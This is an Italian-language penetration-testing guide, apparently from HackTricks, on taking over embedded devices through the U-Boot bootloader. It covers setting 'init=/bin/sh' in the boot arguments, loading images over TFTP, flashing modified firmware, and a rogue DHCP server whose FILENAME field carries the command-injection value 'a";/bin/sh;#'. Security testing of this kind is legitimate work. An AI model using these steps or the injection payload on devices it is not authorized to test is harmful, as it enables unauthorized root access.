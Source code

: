 {{#include ../../banners/hacktricks-training.md}}

I seguenti passaggi sono raccomandati per modificare le configurazioni di avvio dei dispositivi e i bootloader come U-boot:

1. **Accedi alla Shell dell'Interprete del Bootloader**:

- Durante l'avvio, premi "0", spazio, o altri "codici magici" identificati per accedere alla shell dell'interprete del bootloader.

2. **Modifica gli Argomenti di Avvio**:

- Esegui i seguenti comandi per aggiungere '`init=/bin/sh`' agli argomenti di avvio, consentendo l'esecuzione di un comando shell:
%%%
#printenv
#setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
#saveenv
#boot
%%%

3. **Configura il Server TFTP**:

- Configura un server TFTP per caricare immagini su una rete locale:
%%%
#setenv ipaddr 192.168.2.2 #IP locale del dispositivo
#setenv serverip 192.168.2.1 #IP del server TFTP
#saveenv
#reset
#ping 192.168.2.1 #controlla l'accesso alla rete
#tftp ${loadaddr} uImage-3.6.35 #loadaddr prende l'indirizzo in cui caricare il file e il nome del file dell'immagine sul server TFTP
%%%

4. **Utilizza `ubootwrite.py`**:

- Usa `ubootwrite.py` per scrivere l'immagine U-boot e inviare un firmware modificato per ottenere accesso root.

5. **Controlla le Funzionalità di Debug**:

- Verifica se le funzionalità di debug come il logging dettagliato, il caricamento di kernel arbitrari o l'avvio da fonti non affidabili sono abilitate.

6. **Interferenza Hardware Cautelosa**:

- Fai attenzione quando colleghi un pin a terra e interagisci con chip SPI o NAND flash durante la sequenza di avvio del dispositivo, in particolare prima che il kernel si decomprima. Consulta il datasheet del chip NAND flash prima di cortocircuitare i pin.

7. **Configura un Server DHCP Maligno**:
- Configura un server DHCP maligno con parametri dannosi per un dispositivo da acquisire durante un avvio PXE. Utilizza strumenti come il server ausiliario DHCP di Metasploit (MSF). Modifica il parametro 'FILENAME' con comandi di injection come `'a";/bin/sh;#'` per testare la validazione dell'input per le procedure di avvio del dispositivo.

**Nota**: I passaggi che coinvolgono l'interazione fisica con i pin del dispositivo (\*contrassegnati con asterischi) devono essere affrontati con estrema cautela per evitare di danneggiare il dispositivo.

## Riferimenti

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{{#include ../../banners/hacktricks-training.md}}
